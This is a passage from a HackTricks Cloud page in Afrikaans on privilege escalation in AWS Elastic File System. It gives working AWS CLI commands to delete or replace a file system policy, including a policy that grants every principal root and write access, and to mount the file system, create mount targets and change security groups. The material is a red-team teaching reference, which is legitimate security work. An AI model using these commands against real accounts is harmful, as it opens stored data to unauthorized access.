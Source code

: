 # AWS - EFS Privesc

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EFS

Meer **inligting oor EFS** in:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

Onthou dat om 'n EFS te monteer, jy in 'n subnetwerk moet wees waar die EFS blootgestel is en toegang daartoe moet hê (veiligheidsgroepe). As dit gebeur, sal jy dit standaard altyd kan monteer, maar as dit deur IAM-beleide beskerm word, moet jy die ekstra toestemmings hê wat hier genoem word om toegang te verkry.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Met enige van daardie toestemmings kan 'n aanvaller die **lêerstelselsbeleid** **verander** om **jou toegang** daartoe te gee, of net om dit te **verwyder** sodat die **standaardtoegang** toegestaan word.

Om die beleid te verwyder:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Om dit te verander:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Met hierdie toestemming sal 'n aanvaller in staat wees om die **EFS te monteer**. As die skryftoestemming nie standaard aan almal wat die EFS kan monteer gegee word nie, sal hy slegs **lees toegang** hê.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
Die ekstra toestemmings `elasticfilesystem:ClientRootAccess` en `elasticfilesystem:ClientWrite` kan gebruik word om **te skryf** binne die lêerstelsel nadat dit gemonteer is en om **toegang** tot daardie lêerstelsel **as root** te verkry.

**Potensiële Impak:** Indirekte privesk deur sensitiewe inligting in die lêerstelsel te lokaliseer.

### `elasticfilesystem:CreateMountTarget`

As jy 'n aanvaller is wat binne 'n **subnet** is waar **geen monteerdoel** van die EFS bestaan nie. Hy kan eenvoudig **een in sy subnet skep** met hierdie voorreg:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Potensiële Impak:** Indirekte privesc deur sensitiewe inligting in die lêerstelsel te lokaliseer.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

In 'n scenario waar 'n aanvaller ontdek dat die EFS 'n mount target in sy subnetwerk het, maar **geen sekuriteitsgroep die verkeer toelaat nie**, kan hy eenvoudig **dit verander deur die geselekteerde sekuriteitsgroepe aan te pas**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Potensiële Impak:** Indirekte privesc deur sensitiewe inligting in die lêerstelsel te lokaliseer.

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
